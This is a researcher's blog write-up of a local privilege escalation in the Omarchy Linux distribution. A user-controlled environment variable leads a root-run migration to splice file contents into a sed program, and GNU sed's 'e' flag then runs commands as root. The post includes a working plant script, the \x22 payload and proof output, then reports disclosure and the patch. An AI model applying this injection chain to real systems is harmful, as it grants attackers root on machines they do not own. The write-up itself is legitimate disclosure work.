


For context: Omarchy is an Arch-based distro, maxed out with skid brainrot levels ricing that makes you laugh, and is I think almost entirely vibe coded.
People were finding vulns left and riht and I felt a little fomo… so before I get into it, heres the thesis:
The bug wasn’t exotic. An unprivileged file’s contents get spliced, unquoted, into a
sedprogram that runs as root during a routine update. The only “clever” part is a GNUsedescape that walks straight through the filter that’s supposed to stop it.
Headed to omarchy.org and downloaded the iso… WHICH WAS 5 POINT 8 FKING GB BTW.
Booted it and it dropped me onto a plain Arch boot screen. Kinda funny considering how much branding they do.
First thing I check is setuid binaries.
find / -xdev -type f -perm -4000 -ls 2>/dev/null
Nothing spicy. sudo, su, pkexec, the usual crowd. No Omarchy-added setuid anywhere. So its gonna have to be in the Omarchy configs/scripts.
omarchy-shell.sh refused to run without OMARCHY_PATH set, which was a nice hint.
echo $OMARCHY_PATH
# /usr/share/omarchy
That directory is basically what they got on git. Every Omarchy-specific script lives here and it’s all on PATH. If I want an Omarchy vuln and not a generic Arch one, this is the folder.
Open ports by default were just dns/mdns noise plus a couple of IPP printer ports. Printers are famously fucky, but that’s cups, not Omarchy (also Omarchy hardened cups-browsed 4 days before I was looking at all this)
The bin/ scripts are where the Omarchy-specific logic is, and a lot of it reads as AI generated. So I did the dumb effective thing:
cd bin
find . -type f -exec shellcheck {} 2>&1 >>shellcheck \;
I skimmed the whole pile of warnings looking for the classic shapes: unquoted expansions near eval, exec, command substitution, anything root-adjacent.
Before the good one, here were some of the leads I chased:
bin/omarchy-launch-or-focus has an unquoted eval exec at the bottom:
WINDOW_PATTERN="$1"
LAUNCH_COMMAND="${2:-"uwsm-app -- $WINDOW_PATTERN"}"
WINDOW_ADDRESS=$(hyprctl clients -j | jq -r --arg p "$WINDOW_PATTERN" '...|.address' | head -n1)
if [[ -n $WINDOW_ADDRESS ]]; then
hyprctl dispatch "hl.dsp.focus(...)" ...
else
eval exec setsid $LAUNCH_COMMAND
fi
You control $2, so eval exec setsid $LAUNCH_COMMAND will run whatever you hand it. To reach the else you just need WINDOW_ADDRESS empty, which means picking a window pattern that matches nothing. Trivially scriptable.
So it runs arbitrary commands… as me. I invoked the command, I passed the argument, I got a shell as the same uid I started with. No boundary broken. Moving on.
bin/omarchy-webapp-install looked more promising because it writes things. The default Exec line is escaped:
desktop_exec_arg() {
escaped=$(printf '%s' "$1" \
| sed -e 's/\\/\\\\/g' -e 's/"/\\"/g' -e 's/`/\\`/g' -e 's/\$/\\$/g' -e 's/%/%%/g')
printf '"%s"' "$escaped"
}
Someone has def been through this and added the escaping eyesore. However, a comment elsewhere tells us about CUSTOM_EXEC, the 4th argument, which skips desktop_exec_arg entirely:
# Default Exec quotes the URL as one Exec-spec argument; the whole line then gets
# the file-syntax escaping below (unescaped first at read time per spec, so the
# layers compose). $CUSTOM_EXEC is a full command line, so it gets file-syntax only.
if [[ -n $CUSTOM_EXEC ]]; then
EXEC_COMMAND=$CUSTOM_EXEC
else
EXEC_COMMAND="omarchy-launch-webapp $(desktop_exec_arg "$APP_URL")"
fi
So if anything calls omarchy-webapp-install non-interactively with a 4th arg built from attacker data, that’s the jump.
So I grepped for a caller…

grepping for 4th arg to webapp-install
omarchy-install-service-sunshine sets a 4th arg! …but to a hardcoded constant.
SUNSHINE_ADMIN_EXEC="omarchy-launch-webapp $SUNSHINE_ADMIN_URL --ignore-certificate-errors"
Rip.
I thought this was the one for a minute. omarchy-dev-link points Omarchy at a local checkout, and to do that it rewrites root’s secure_path:
target=$(realpath -e "$1" 2>/dev/null) || {
echo "Error: path does not exist: $1" >&2
exit 1
}
# ...
{
printf 'Defaults secure_path='
sudoers_quote "$target/bin:$system_secure_path"
printf '\n'
} >"$staged_sudoers"
# ...
sudo install -Dm440 -o root -g root "$staged_sudoers" "$sudoers_file"
It prepends $target/bin, a directory you pass as $1, to the PATH that every sudo command on the box resolves against.
So in principle: drop a file named systemctl in $target/bin, and the next sudo systemctl restart foo anyone types runs your script as root.
Their justification for this:
# sudo resolves a bare command name against secure_path, never the caller's
# PATH, so a dev-linked checkout is invisible to `sudo omarchy-*`: a command the
# package does not ship yet fails outright, and one it does ship silently runs
# the packaged copy while every unprivileged call runs the checkout. Prepending
# the checkout's bin keeps root on the code being edited — the same trust the
# link already extends to every system script Omarchy runs out of $OMARCHY_PATH.
They say the checkout gets “the same trust the link already extends to every system script Omarchy runs out of
OMARCHY_PATH.”Bro..
OMARCHY_PATHscopes to Omarchy’s own tree.secure_pathis the global root PATH for the entire system. Equating those two is how you end up prepending a user-writable dir to root’s PATH and calling it a feature.
But on a default install, OMARCHY_PATH and its tree are root-owned, not user-writable. The dev-link path only bites if you install Omarchy from a checkout you already control, at which point you were already root during install :/
Getting a little bored, I wanted to look at stuff that ran on a stock VM without me choosing to run it, which led me to the installer and migration scripts.
install/config/locate.sh, the thing that configures plocate’s updatedb. First line:
UPDATEDB_CONF_PATH="${OMARCHY_UPDATEDB_CONF_PATH:-/etc/updatedb.conf}"
An environment variable decides which file this script reads. And then the same script rewrites that file with sed:
# 25:
pruned=$(sed -nE 's|^[[:space:]]*PRUNEPATHS[[:space:]]*=[[:space:]]*"([^"]*)".*|\1|p' "$UPDATEDB_CONF_PATH" | tail -n 1)
# 28:
sed -i -E "s|^[[:space:]]*PRUNEPATHS[[:space:]]*=.*|PRUNEPATHS = \"/.snapshots${pruned:+ $pruned}\"|" "$UPDATEDB_CONF_PATH"
Look at line 28, $pruned, a value pulled out of the config file, is dropped unquoted into the replacement half of a sed program. And this whole script runs as root during a migration.
Two things have to be true for that to be exploitable:
OMARCHY_UPDATEDB_CONF_PATH is an env var. Unprivileged processes can set env vars. The only question is whether it survives the trip into the root context.
Well, the migration that calls this script hands it over on purpose!
# migrations/1784809451.sh
# 5:
UPDATEDB_CONF_PATH="${OMARCHY_UPDATEDB_CONF_PATH:-/etc/updatedb.conf}"
# 23:
as_root env OMARCHY_UPDATEDB_CONF_PATH="$UPDATEDB_CONF_PATH" bash -euo pipefail "$locate_config_script"
as_root is sudo when you’re not already root. So the migration explicitly forwards my attacker-controlled env var across the privilege boundary and uses it to tell root which file to read and rewrite.
Now I control the file, which means I control $pruned, which means I control a string that gets spliced raw into a sed command running as root.
sed is a tiny language, and two of its features are all I need:
e flag on an s command: execute the pattern space as a shell command (via /bin/sh). This is a real, documented GNU sed feature and it is exactly as scary as it sounds.w <file> flag: write the pattern space to a file. I only need this to eat the leftover characters of the original program so the whole thing still parses.My PRUNEPATHS value (the thing that becomes $pruned):
PRUNEPATHS = "\x22;id > /home/uiop/proof.txt;:|ew "
When that gets substituted into the template, the sed program root hands the pattern space,
PRUNEPATHS = "/.snapshots ";id > /home/uiop/proof.txt;:
to /bin/sh as root. PRUNEPATHS = "..." fails (command not found, who cares), then id > proof.txt runs, then : is a no-op to end cleanly. And because root ran it, proof.txt comes out owned by root, containing uid=0!
You’re looking at line 25 thinking: the extraction regex is ([^"]*), it literally can’t capture a quote, so how does a " end up closing the string in the command that sh eventually runs???
Simply put, the quote isn’t in the file. The four bytes \x22 are. At extraction time (line 25) the value is the literal text \x22, no quote, so [^"]* is perfectly happy and passes it through.
Then line 28 drops that text into a sed replacement string, and GNU sed decodes \xHH escapes in replacements into their byte at program-compile time, after the filter already ran, inside the program that’s about to execute. \x22 becomes a real ". The filter and the decode happen at two different times, and the escape smuggles the quote across the gap between them B)
Having the primitive is nice. You still need root to run the migration. Two more facts make that easy.
The migration markers are mine. Omarchy tracks which migrations have run in ~/.local/state/omarchy/migrations/, a directory I own. Delete the marker for 1784809451.sh and it’s “pending” again. (The state dir path is even env-overridable via OMARCHY_MIGRATION_STATE, but I didn’t need that.) So I can re-arm an already-applied migration whenever I want. That same fact means an attacker can also suppress a security-repair migration by pre-touching its marker, which is its own problem.
Omarchy nags you to run migrations. At login, omarchy-migrate-notify throws a critical “Pending Omarchy Migrations” desktop notification whose button opens a terminal and runs omarchy-migrate. Clicking it is the exact thing Omarchy is designed for you to do. And omarchy update runs omarchy-migrate on its own, right after pacman -Syu, which already warmed your sudo timestamp, so no second password prompt appears when my migration escalates.
So the full unprivileged plant is tiny:
#!/bin/bash
set -eu
DIR="$HOME/lpe"; mkdir -p "$DIR"
{
printf 'PRUNE_BIND_MOUNTS = "no"\n'
printf 'PRUNEPATHS = "\\x22;id > %s/proof.txt;:|ew "\n' "$DIR"
} > "$DIR/payload.conf"
# uwsm exports this into the whole graphical session on next login
mkdir -p "$HOME/.config/uwsm/env.d"
echo "export OMARCHY_UPDATEDB_CONF_PATH=$DIR/payload.conf" \
> "$HOME/.config/uwsm/env.d/99-payload.conf"
# re-arm the migration (marker dir is mine)
rm -f "$HOME/.local/state/omarchy/migrations/1784809451.sh"
Drop that in env.d so the var is live for the whole session, reboot, and the next time the victim does the thing they’re told/used to do/doing, root runs id
> proof.
$ id
uid=1000(uiop) gid=1000(uiop) groups=1000(uiop),998(wheel)
# ...plant, reboot, apply the pending migration...
$ cat ~/lpe/proof.txt
uid=0(root) gid=0(root) groups=0(root)
$ stat -c '%U' ~/lpe/proof.txt
rootヽ(°〇°)ﾉ
Emailed security@omarchy.org with the affected files and line numbers, the before/after, and the minimal id > proof.txt PoC.
They responded with the following:

I am now posting this blog since the patch is out (omacom/omarchy#10579) which deletes the entire fucking mechanism. install/config/locate.sh is gone. The migration is gone. lol
The commit keeps the reporter credit. “Reported by uiop / @wasdhjklxyz.” :D